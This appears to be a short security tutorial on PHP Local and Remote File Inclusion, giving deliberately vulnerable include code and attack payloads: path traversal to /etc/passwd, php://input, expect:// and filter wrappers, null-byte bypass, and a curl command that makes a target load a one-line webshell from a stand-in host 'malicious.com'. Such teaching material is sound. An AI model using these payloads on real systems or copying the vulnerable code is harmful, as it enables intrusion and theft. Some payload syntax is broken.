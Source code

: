 # LFI (Local File Inclusion)
This is a vulnerability tat allows an attacker to include files on a server through the webbrowser basically to read them, apart from the hosted web-root directory.

LFI is mostly caused when a developer is too lazy to write a secure code >.<

```php=
<?php
	$file = $_GET['page'];
	if (isset($file)){
		include("pages/$file");
	} else {
		include("ingex.php");
	}
?>
```

That above is an example of a vulnerable LFI code.

### Identifying LFI vulnerabilities
Say you visit a website `http://example.com/index.php` and from the navigation bar you find `http://example.com/index.php?page=about.php`, An attacker can attempt to exploit this by trying LFI:

`http://example.com/index.php?page=about.php`
`http://example.com/index.php?page=../../../../../../../etc/passwd`

Where this will include the `/etc/passwd` file instead of `about.php`

### Wrappers (PHP)
Sometimes wrappers can be used in this case , but depends with if the wrapper you are to use is allowed or not.

***EXPECT***
This wrapper allows execution of system commands , unfortunately it is not enabled by default, it can be used as below:

`http://example.com/index.php?page=expect://ls`

And the output over here shall be the listing of the files inside the server from the pwd it was executed at

***INPUT***
This wrapper also allows system commands execution , it can be used as follows:

`curl -X POST "http://example.com/index.php?page=php://input&cmd=ls" -d <?php echo system($_GET['cmd'];);?>`

***FILTER***
Allows an attacker to include localfiles which are then encoded with base64 to be the output, thus an attacker will have to decode the base64 content to get the plain text content, here is an example:

`http://example.com/inedx.php?page=php://filter/convert.base64-encode/resource=/etc/passwd`

This will encode the `/etc/passwd` file in base64 then output it.

### Null Byte Technique Bypassing
Sometimes it is filtered thus you have to bypass the filter to be able to fully perform LFI , by this we can bypass the filters using Null byte injection bypasses where as we add URL encoded `NULL BYTES` such as `%00` , for example:

`http://example.com/index.php?page=/etc/passwd%00`

### LFI 2 RCE
There are plenty of ways to get RCE from LFI , among them is by performing Log poisoning where as you send a request with a shell snippet code and then access the log and add a parameter that will perform execution of system commands , and the other would be by poisoning mail logs , and as well as the `input` wrapper and the `expect` wrapper

# RFI (Remote File Inclusion)
This vulnerability is almost the same to LFI but this one is of course remote , so you can perform almost the same thing in LFI but by accessing a remote vendor saying the code is :

```php=
<?php
	$file = $_REQUEST['file'];
	if (isset($file)){
		include($file.'php');
	} else {
		include('index.php');
	}
?>
```

This is just an example of what the code looks like , so basically what it does it just takes the `?page=` parameter with a page like `about` without the `.php` at the end and then it outputs it, so we can take advantage of this by hosting a malicious script from our server `malicious.com` and then host the malicious php webshell from it and then request it from the website that is vulnerable without the extension, the malicious script would in this case be:

```php
<?=`$_POST[0]`?>
```

Where it is taking the data `0` and then executing it with system command then outputing the result so we can host it and access it to the targetted site with curl simple by writing:

```bash
curl -X POST "http://example.com/index.php?page=http://malicious.com/evil" -d "0=ls"
```

We didn't write `evil.php` because it will say not found since it will be called as `evil.php.php` , instead I just wrote `evil` where it will then be called `evil.php`.

From there I can definitely get RCE

**By tahaafarooq**
